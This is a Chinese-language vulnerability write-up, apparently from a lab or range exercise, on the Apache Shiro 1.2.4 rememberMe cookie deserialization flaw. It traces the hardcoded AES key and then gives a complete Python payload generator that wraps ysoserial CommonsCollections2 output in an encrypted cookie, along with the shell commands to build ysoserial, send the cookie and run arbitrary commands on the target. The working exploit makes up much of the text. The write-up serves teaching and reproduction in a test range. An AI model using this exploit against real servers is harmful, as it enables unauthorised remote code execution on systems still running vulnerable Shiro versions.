






# Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞


## 1.&emsp;漏洞描述

- 漏洞描述：Apache Shiro 在 Java 的权限及安全验证框架中占用重要的一席之地，在它编号为550的 issue 中爆出严重的 Java 反序列化漏洞。
- 漏洞等级：高危
- 影响版本：shiro<1.2.5

## 2.   漏洞分析

从官方的 issue 上来看，存在几个重要的点:

- rememberMe cookie
- CookieRememberMeManager.java
- Base64
- AES
- 加密密钥硬编码
- Java serialization

首先，我们从正常登录返回的 cookie 中获取到 remeberMe 的值如下：

```basic
b5yZT61fKmL1xtrbaea+J69nQ/3CTtCs6JjKpkASJVL9LKgHtt3poOgXuYgOgyTEevaxzGEwqBUSi/GQG7oTlZdqTsyE5ZgdmhGtcFmuYlAg/o3pIpsHqOoceaMJ9EY4C7int+hb23KChqj73Mm99EMeb7Ey8jD6L4f1gJHjYKTv+ORbKQIaP6Num6MaXTBoYVloPRk8Lm2V+FNaksUkG949JQlvxtWIj1lidEXzjZ1GhA5nPrB5oR+3cb0mLBcg4UDyU3kqvIYKyfBhCe3BFBB1WySgNRFT5Ta4ybIirFGwdG6Ibhb55u1yZd+O1cC/Oc24qiJ2rkuXSLRZT4+0OtAlETaJQq3Is0AAiGwsCR1wuXsT2xxZA1t+lzP3yluW/46LaNlNLwIQLedNOHo1E+7BMbDf8yAabQqWSENW1JvmXB+fjsdSplj/YKFDNDKONn8JhynJhQnsaK+fv48Z/Tc+yNwzeChVp4cMHNyLsuGtJaoyZD3M5BDz0bmXDKTU
```

使用 Base64 解码存储为二进制文件后，内容如下:

```shell
00000000  6f 9c 99 4f ad 5f 2a 62  f5 c6 da db 69 e6 be 27  |o..O._*b....i..'|
00000010  af 67 43 fd c2 4e d0 ac  e8 98 ca a6 40 12 25 52  |.gC..N......@.%R|
00000020  fd 2c a8 07 b6 dd e9 a0  e8 17 b9 88 0e 83 24 c4  |.,............$.|
00000030  7a f6 b1 cc 61 30 a8 15  12 8b f1 90 1b ba 13 95  |z...a0..........|
00000040  97 6a 4e cc 84 e5 98 1d  9a 11 ad 70 59 ae 62 50  |.jN........pY.bP|
00000050  20 fe 8d e9 22 9b 07 a8  ea 1c 79 a3 09 f4 46 38  | ...".....y...F8|
00000060  0b b8 a7 b7 e8 5b db 72  82 86 a8 fb dc c9 bd f4  |.....[.r........|
00000070  43 1e 6f b1 32 f2 30 fa  2f 87 f5 80 91 e3 60 a4  |C.o.2.0./.....`.|
00000080  ef f8 e4 5b 29 02 1a 3f  a3 6e 9b a3 1a 5d 30 68  |...[)..?.n...]0h|
00000090  61 59 68 3d 19 3c 2e 6d  95 f8 53 5a 92 c5 24 1b  |aYh=.<.m..SZ..$.|
000000a0  de 3d 25 09 6f c6 d5 88  8f 59 62 74 45 f3 8d 9d  |.=%.o....YbtE...|
000000b0  46 84 0e 67 3e b0 79 a1  1f b7 71 bd 26 2c 17 20  |F..g>.y...q.&,. |
000000c0  e1 40 f2 53 79 2a bc 86  0a c9 f0 61 09 ed c1 14  |.@.Sy*.....a....|
000000d0  10 75 5b 24 a0 35 11 53  e5 36 b8 c9 b2 22 ac 51  |.u[$.5.S.6...".Q|
000000e0  b0 74 6e 88 6e 16 f9 e6  ed 72 65 df 8e d5 c0 bf  |.tn.n....re.....|
000000f0  39 cd b8 aa 22 76 ae 4b  97 48 b4 59 4f 8f b4 3a  |9..."v.K.H.YO..:|
00000100  d0 25 11 36 89 42 ad c8  b3 40 00 88 6c 2c 09 1d  |.%.6.B...@..l,..|
00000110  70 b9 7b 13 db 1c 59 03  5b 7e 97 33 f7 ca 5b 96  |p.{...Y.[~.3..[.|
00000120  ff 8e 8b 68 d9 4d 2f 02  10 2d e7 4d 38 7a 35 13  |...h.M/..-.M8z5.|
00000130  ee c1 31 b0 df f3 20 1a  6d 0a 96 48 43 56 d4 9b  |..1... .m..HCV..|
00000140  e6 5c 1f 9f 8e c7 52 a6  58 ff 60 a1 43 34 32 8e  |.\....R.X.`.C42.|
00000150  36 7f 09 87 29 c9 85 09  ec 68 af 9f bf 8f 19 fd  |6...)....h......|
00000160  37 3e c8 dc 33 78 28 55  a7 87 0c 1c dc 8b b2 e1  |7>..3x(U........|
00000170  ad 25 aa 32 64 3d cc e4  10 f3 d1 b9 97 0c a4 d4  |.%.2d=..........|
```

从这些内容中没有看到有明确的 Java 序列化特征字，因为上述关键字当中提到了 AES 和 加密密钥硬编码，所以需要去跟一下源码。打开 CookieRememberMemanager.java 文件并没有找到硬编码的加密密钥，继续跟它的父类 AbstractRememberMeManager 看到了如下几行:

```java
 /**
     * The following Base64 string was generated by auto-generating an AES Key:
     * <pre>
     * AesCipherService aes = new AesCipherService();
     * byte[] key = aes.generateNewKey().getEncoded();
     * String base64 = Base64.encodeToString(key);
     * </pre>
     * The value of 'base64' was copied-n-pasted here:
     */
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```

目前可以断定 Base64.decode("kPH+bIxk5D2deZiIxcaaaA==") 就是我们要找的硬编码密钥，因为 AES 是对称加密，即加密密钥也同样是解密密钥。

除了密钥，还有两个必要的属性，一个是 AES 中的 mode（加解密算法），另外一个是 IV（初始化向量），继续查看 AbstractRememberMeManager 的代码， 在它的方法 encrypt 中看到如下语句：

```java
    /**
     * Encrypts the byte array by using the configured {@link #getCipherService() cipherService}.
     *
     * @param serialized the serialized object byte array to be encrypted
     * @return an encrypted byte array returned by the configured {@link #getCipherService () cipher}.
     */
    protected byte[] encrypt(byte[] serialized) {
        byte[] value = serialized;
        CipherService cipherService = getCipherService();
        if (cipherService != null) {
            ByteSource byteSource = cipherService.encrypt(serialized, getEncryptionCipherKey());
            value = byteSource.getBytes();
        }
        return value;
    }
```

其中 CipherService 是个接口，而实现这个接口的是一个抽象类 JcaCipherService，在它的成员函数 initNewCipher 中下断点，可以看到我们需要的几个关键信息： AES 的 mode 为 CBC， IV是随机生成的，但是偶然发现这个IV并没有真正使用起来。

那么利用上述获取到的信息，对 Base64 解码后的文件进行解密操作，解密 Python 代码如下:

```python
# pip install pycrypto
import sys
import base64
from Crypto.Cipher import AES
def decode_rememberme_file(filename):
    with open(filename, 'rb') as fpr:
        key  =  "kPH+bIxk5D2deZiIxcaaaA=="
        mode =  AES.MODE_CBC
        IV   = b' ' * 16
        encryptor = AES.new(base64.b64decode(key), mode, IV=IV)
        remember_bin = encryptor.decrypt(fpr.read())
    return remember_bin
if __name__ == '__main__':
    with open("/tmp/decrypt.bin", 'wb+') as fpw:
        fpw.write(decode_rememberme_file(sys.argv[1]))
```

解密后的文件内容如下:

```shell
00000000  f2 3d a1 f5 74 1d 3b 15  b2 00 4e 53 a4 6b 1c 19  |.=..t.;...NS.k..|
00000010  ac ed 00 05 73 72 00 32  6f 72 67 2e 61 70 61 63  |....sr.2org.apac|
00000020  68 65 2e 73 68 69 72 6f  2e 73 75 62 6a 65 63 74  |he.shiro.subject|
00000030  2e 53 69 6d 70 6c 65 50  72 69 6e 63 69 70 61 6c  |.SimplePrincipal|
00000040  43 6f 6c 6c 65 63 74 69  6f 6e a8 7f 58 25 c6 a3  |Collection..X%..|
00000050  08 4a 03 00 01 4c 00 0f  72 65 61 6c 6d 50 72 69  |.J...L..realmPri|
00000060  6e 63 69 70 61 6c 73 74  00 0f 4c 6a 61 76 61 2f  |ncipalst..Ljava/|
00000070  75 74 69 6c 2f 4d 61 70  3b 78 70 73 72 00 17 6a  |util/Map;xpsr..j|
00000080  61 76 61 2e 75 74 69 6c  2e 4c 69 6e 6b 65 64 48  |ava.util.LinkedH|
00000090  61 73 68 4d 61 70 34 c0  4e 5c 10 6c c0 fb 02 00  |ashMap4.N\.l....|
000000a0  01 5a 00 0b 61 63 63 65  73 73 4f 72 64 65 72 78  |.Z..accessOrderx|
000000b0  72 00 11 6a 61 76 61 2e  75 74 69 6c 2e 48 61 73  |r..java.util.Has|
000000c0  68 4d 61 70 05 07 da c1  c3 16 60 d1 03 00 02 46  |hMap......`....F|
000000d0  00 0a 6c 6f 61 64 46 61  63 74 6f 72 49 00 09 74  |..loadFactorI..t|
000000e0  68 72 65 73 68 6f 6c 64  78 70 3f 40 00 00 00 00  |hresholdxp?@....|
000000f0  00 0c 77 08 00 00 00 10  00 00 00 01 74 00 08 69  |..w.........t..i|
00000100  6e 69 52 65 61 6c 6d 73  72 00 17 6a 61 76 61 2e  |niRealmsr..java.|
00000110  75 74 69 6c 2e 4c 69 6e  6b 65 64 48 61 73 68 53  |util.LinkedHashS|
00000120  65 74 d8 6c d7 5a 95 dd  2a 1e 02 00 00 78 72 00  |et.l.Z..*....xr.|
00000130  11 6a 61 76 61 2e 75 74  69 6c 2e 48 61 73 68 53  |.java.util.HashS|
00000140  65 74 ba 44 85 95 96 b8  b7 34 03 00 00 78 70 77  |et.D.....4...xpw|
00000150  0c 00 00 00 10 3f 40 00  00 00 00 00 01 74 00 04  |.....?@......t..|
00000160  72 6f 6f 74 78 78 00 77  01 01 71 00 7e 00 05 78  |rootxx.w..q.~..x|
00000170  10 10 10 10 10 10 10 10  10 10 10 10 10 10 10 10  |................|
```

OK，看到第二行打头的 ac ed 00 05了吗？ 这是 Java 序列化的标志，说明解密成功。那么文件第一行是什么呢？我们继续来跟 JcaCipherService 这个类，看它的一个加密函数 encrypt :

```java
  private void encrypt(InputStream in, OutputStream out, byte[] key, byte[] iv, boolean prependIv) throws CryptoException {
        if (prependIv && iv != null && iv.length > 0) {
            try {
                //first write the IV:
                out.write(iv);
            } catch (IOException e) {
                throw new CryptoException(e);
            }
        }

        crypt(in, out, key, iv, javax.crypto.Cipher.ENCRYPT_MODE);
    }
```

可以看出这个加密函数是先将 IV 写入，然后再加密具体的序列化对象的字节码，这样 IV 值我们可以直接通过读取第一行（16个字节，128位）获得了。

这里还需要跟进一个重要的东西，就是加密的序列化对象，回到 CookieRememberMeManager 的父类 AbstractRememberMeManager , 上面贴出的 encrypt 中有个 serialized 的字节数组，这个字节数组是从哪里来的呢？在这个类中直接调用这个方法的是 convertPrincipalsToBytes :

```java
  protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        byte[] bytes = serialize(principals);
        if (getCipherService() != null) {
            bytes = encrypt(bytes);
        }
        return bytes;
    }
```

可以看出序列化对象是 PrincipalCollection ，但是这个类是个接口，看了下实现它的类是 SimplePrincipalCollection 对象。 在它的代码当中，可以发现关键的两个方法： writeObject 和 readObject.

最后，具体的 Payload 也就呼之欲出了，代码如下：

```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("/tmp/payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)
```

将上述代码保存为 /tmp/create_payload.py, 执行如下命令:

```shell
cd /tmp
python3 create_payload.py "open /Applications/Calculator.app"
# 安装了 httpie 可以运行如下指令
http ip:port/shiro/ Cookie:`cat payload.cookie`
```

运行结果如图：



到这里就结束了吗？其实还没有，因为我们现在还没有找到具体的反序列化触发点在哪里。现在利用这个 payload 进行触发，并下断点，断点设置在前面所述的 AbstractRememberMeManager，具体的函数如下：

```java
   /**
     * Implements the interface method by first {@link #getRememberedSerializedIdentity(SubjectContext) acquiring}
     * the remembered serialized byte array.  Then it {@link #convertBytesToPrincipals(byte[], SubjectContext) converts}
     * them and returns the re-constituted {@link PrincipalCollection}.  If no remembered principals could be
     * obtained, {@code null} is returned.
     * <p/>
     * If any exceptions are thrown, the {@link #onRememberedPrincipalFailure(RuntimeException, SubjectContext)} method
     * is called to allow any necessary post-processing (such as immediately removing any previously remembered
     * values for safety).
     *
     * @param subjectContext the contextual data, usually provided by a {@link Subject.Builder} implementation, that
     *                       is being used to construct a {@link Subject} instance.
     * @return the remembered principals or {@code null} if none could be acquired.
     */
    public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
        PrincipalCollection principals = null;
        try {
            byte[] bytes = getRememberedSerializedIdentity(subjectContext);
            //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
            if (bytes != null && bytes.length > 0) {
                principals = convertBytesToPrincipals(bytes, subjectContext);
            }
        } catch (RuntimeException re) {
            principals = onRememberedPrincipalFailure(re, subjectContext);
        }

        return principals;
    }
```

这里断点我下在了 principals = convertBytesToPrincipals(bytes, subjectContext); 上，进行跟踪调试，最终的反序列化落在了 DefaultSerializer 类的 deserialize 的函数里，具体的函数细节如下:

```java
  /**
     * This implementation deserializes the byte array using a {@link ObjectInputStream} using a source
     * {@link ByteArrayInputStream} constructed with the argument byte array.
     *
     * @param serialized the raw data resulting from a previous {@link #serialize(Object) serialize} call.
     * @return the deserialized/reconstituted object based on the given byte array
     * @throws SerializationException if anything goes wrong using the streams.
     */
    public T deserialize(byte[] serialized) throws SerializationException {
        if (serialized == null) {
            String msg = "argument cannot be null.";
            throw new IllegalArgumentException(msg);
        }
        ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
        BufferedInputStream bis = new BufferedInputStream(bais);
        try {
            ObjectInputStream ois = new ClassResolvingObjectInputStream(bis);
            @SuppressWarnings({"unchecked"})
            T deserialized = (T) ois.readObject();
            ois.close();
            return deserialized;
        } catch (Exception e) {
            String msg = "Unable to deserialze argument byte array.";
            throw new SerializationException(msg, e);
        }
    }
}
```

看到那个令人激动的 readObject 了吧，至此收工，结束。

## 4.  漏洞复现

1. 打开oj平台点击生成环境，访问环境：



2. 我们需要产生payload的 ysoserial ，执行下列命令，可以获取到需要的 jar 文件：

```shell
git　clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -DskipTests
cp target/ysoserial-0.0.6-SNAPSHOT-all.jar /tmp
```

3. 生成payload，执行命令：` python3 poc.py "touch /tmp/success"`，在自己的/tmp目录下看下生成的payload文件：



4. 在自己服务器上安装httpie，输入命令`sudo apt-get install httpie`，发送刚刚构造的恶意payload：



5. 查看靶场服务器，可以看到success文件成功被写入：



6. 我们可以把命令`touch /tmp/success`换成任意命令执行，查看flag：



## 5.&emsp;修复方案

升级 Shiro 版本至 1.2.5 以上
